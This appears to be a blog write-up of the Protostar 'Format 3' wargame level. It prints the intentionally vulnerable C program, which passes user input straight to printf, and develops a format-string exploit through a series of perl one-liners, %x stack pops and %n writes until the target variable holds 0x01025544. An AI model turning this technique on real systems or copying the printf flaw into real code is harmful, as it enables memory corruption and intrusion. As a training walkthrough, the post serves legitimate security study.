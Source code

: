 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 3"
date: "2012-02-01T05:33:00-05:00"
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing in the String Format section, the next challenge we run across is [Format 3](http://exploit-exercises.com/protostar/format3). 

<!-- more -->

We're first given the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
 printf(string);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printbuffer(buffer);

 if(target == 0x01025544) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %08x :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This seems to be just like Format 2, except that we have to modify all 8 bytes instead of just 2. 

The process is still pretty much the same.  We will first find the memory address of "target", to get that out of the way: 

```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

I tried spamming the format3 executable with 15 "%x", since the last couple challenges have been lower than the typical 150 I was doing. 

```
user@protostar:/opt/protostar/bin$ echo AAAA`perl -e 'print "%x."x15'` | ./format3
AAAA0.bffff5e0.b7fd7ff4.0.0.bffff7e8.804849d.bffff5e0.200.b7fd8420.bffff624.41414141.252e7825.78252e78.2e78252e.
target is 00000000 :(
```

It appears that we get our "41414141" at 12 bytes popped.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ echo AAAA%x%x%x%x%x%x%x%x%x%x%x%x | ./format3
AAAA0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff62441414141
target is 00000000 :(
```

So let's try it with the memory address of "target" instead of "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000041 :(
```

Awesome! It's overwriting properly.  Our last byte shows as "41", meaning that printf wrote 41 characters.  However for the vulnerable program, it needs to be "44", so let's just increase it a little. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000044 :(
```

So it appears if I use "%11x" for one of the stack pops, it's just the right amount.  You can actually calculate this value using a calculator, but I've found myself usually just brute forcing it with multiple guesses. 

So let's work on the next 2 bytes. From several of the books and papers listed in the previous challenge, I found out how to handle this. You just start appending more data, with a junk buffer, and possibly some spacing, and it will continue in a similar fashion. You then just increment the byte you want to overwrite, going upwards in the memory space, so you don't overwrite the space you already wrote the first time. 

To feel out for how many stack pops we'd have to do, I experimented, and spammed an additional 15 after setting up the start of the next byte of "target": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKAAAAAAAA\xf5\x96\x04\x08" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKAAAAAAAA78257825.78257825.78257825.78257825.78257825.78313125.554a6e25.41414b4e.41414141.96f54141.78250804.2e78252e.252e7825.78252e78.2e78252e.
target is 00000044 :(
```

Now pay attention here. You'll see after 8 stack pops, you have "41414b4e.41414141".  The first byte has some junk from a previous memory address. Since we can only pass 4 "A"s, we'll need to buffer this a bit with additional junk bytes. To test that out, we can do: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJUAAAA\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJUAAAA782578257825782578257825782578257825782578313125554a6e25554a4b4e41414141
target is 00000044 :(
```

Now if we just convert that final "%x" to a "%n", we'll overwrite the second memory address shown with the number of bytes printed. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00008e44 :(
```

Awesome again! We overwrote the next 2 bytes!  But wait a minute.  It overwrote "8e", and we want to get "55".  There is nothing that we can add to "8e" to get "55", as it's larger.  We can't subtract, so this poses an issue.  However, there's nothing saying that we can't overwrite 4 bytes instead of just 2.  We could simply add to "8e" until we get "255", since the next 4 bytes needed are "0255".  I played around with some math, and found that I could do exactly that! 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00025544 :(
```

This is convenient for us, because now we don't have to do 4 separate overwrites, we can skip the third one, moving directly to the fourth.  For this last pair, we will need to write "01".  Off the bat, with such a low number, I knew that we'd have to do something similar, since there's no way we would ever be writing 0 characters in printf.  We would just have to raise it to "101", and the first "1" would get cut off into a virtual la-la land. 

Again, let's find the length of stack addresses to pop, by spamming 15 "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNKAAAA" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNKAAAA78257825.78257825.78257825.34257825.25783336.4e554a6e.4141414b.2e782541.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
target is 00025544 :(
```

This time we have 7 pops, and again the buffer is mis-aligned.  So let's test the 7 pops and fixing the buffer alignment: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNAAAA%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNAAAA78257825782578257825782534257825257833364e554a6e41414141
target is 00025544 :(
```

Removing one character from the 4-char word "JUNK" seemed to do the trick.  We are now showing "41414141" as the last word again. 

So let's switch the last "%x" to "%n", and the "AAAA" to our last memory address, and see what it outputs. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
target is 8c025544 :(
```

Alright, so it's giving "8c", and we need to get to "101".  That's roughly 117 bytes difference.  I started tinkering from there, and found that it needed 125 extra characters. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%125x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
you have modified the target :)
```

Awesome! We actually were able to overwrite an arbitrary value in memory to a specific value of our desire.  Think of the implications of this.  I was solving it, and afterwards read about a very new string format vulnerability in "sudo".  More information can be read [here](http://www.sudo.ws/sudo/alerts/sudo_debug.html).  These are real-world applications, and these bugs are found in the wild.  It really blows my mind.
